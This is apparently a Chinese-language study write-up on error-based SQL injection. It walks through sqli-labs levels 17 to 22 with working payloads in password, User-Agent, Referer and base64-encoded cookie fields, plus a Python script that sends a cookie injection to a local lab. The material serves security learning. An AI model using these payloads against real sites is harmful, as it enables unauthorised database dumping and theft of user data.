





### 新知识点：报错注入
基于报错的盲注是通过输入特定语句使页面报错，网页中则会输出相关错误信息，从而是我们得到想要的基本信息——数据库名、版本、用户名，这已经成为一套已经成型的公式，然后用普通注入的方法进行注入就好了，所以总结一下这么几个公式

1.直接使用报错：
```mysql
mysql> select 1,2 from user where id ="1" union select count(*),concat('/',(select database()),'/',floor(rand(0)*2))a from information_schema.columns group by a;
1062 - Duplicate entry '/nuaa_msc/1' for key '<group_key>'
```
<!--more-->
2、利用xpath函数—extractvalue报错
```mysql
mysql> select 1,2 from user where id ="1" and extractvalue(1,concat(0x7e,(select database()),0x73));
1105 - XPATH syntax error: '~nuaa_mscs'
```
concat里面甚至可以再放函数，如图用了group_concat，将用户名密码全部获得（但是好像输出长度有限定，只能输出一定长度结果）
```
mysql> select 1,2 from user where id ="1" and extractvalue(1,concat(0x7e,(select database()),'/',(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x73));
1105 - XPATH syntax error: '~nuaa_msc/articles'
```
3、利用xpath函数—updatexml报错：
```
mysql> select 1,2 from user where id ="1" and updatexml(1,concat(0x7e,(select database()),0x7e),1);
1105 - XPATH syntax error: '~nuaa_msc~'
```
## Hack
### Less-17
题目咋一看是一个重置密码的功能，其实可以通过延时注入来跑，这里用新学的知识点,任意选择上面的一种即可
```
passwd: 1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
uname: admin
```


### Less-18
题目名字叫POST-Header Injection-Uagent field-Error based;
登录成功会出现user agent

可以使用postman 修改User-Agent,注意首先要登录成功
```
User-Agent : 1'or updatexml(1,concat('#',(database())),0),'','')#
```

爆表
```
User-Agent : 1' or updatexml(1,concat('#',(select group_concat(table_name) from information_schema.tables where table_schema='security')),0),'','')#
```
爆字段
```
User-Agent : 1' or updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0),'','')#
```
### Less-19
和18一样，只是把User-Agent改成Referer

### Less-20
Cookie 注入 , 修改自身cookie , 后台获取到这个cookie后 , 会直接拿去数据库里面进行比较 , 比较的时候就有可能注入，登录成功后修改 cookie 即可
首先登录，然后修改cookie，可以通过谷歌Applocation直接修改为
```
'union select 1,group_concat(schema_name),3 from information_schema.schemata#
```

也可以通过脚本
```python
import requests

url = "http://127.0.0.1/Less-20/"

postDate = {
	'uname':'admin',
	'passwd':'admin'
}

headers = {
	'Host':'127.0.0.1',
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0',
	'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
	'Accept-Encoding':'gzip, deflate',
	'Referer':'http://127.0.0.1/Less-20/index.php',
	'Cookie':'uname=\' union select 1,group_concat(schema_name),3 from information_schema.schemata#',
	'Connection':'keep-alive',
	'Upgrade-Insecure-Requests':'1',
	'Cache-Control':'max-age=0'
}

content = (requests.post(url, data=postDate, headers=headers).text)
print(content)
```
### Less-21
和上面差不多，但是这里的cookie用过了base64加密而且加上了括号
原始payload为
```
') union select 1,group_concat(schema_name),3 from information_schema.schemata#
```
base64
```
JykgdW5pb24gc2VsZWN0IDEsZ3JvdXBfY29uY2F0KHNjaGVtYV9uYW1lKSwzIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnNjaGVtYXRhIw==
```
同样的方式修改即可
### Less-22
上同，改为双引号,转码前
```
" union select 1,group_concat(schema_name),3 from information_schema.schemata#
```
转码后
```
IiB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQoc2NoZW1hX25hbWUpLDMgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuc2NoZW1hdGEj
```

[下一篇-23~27题详解](README6.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)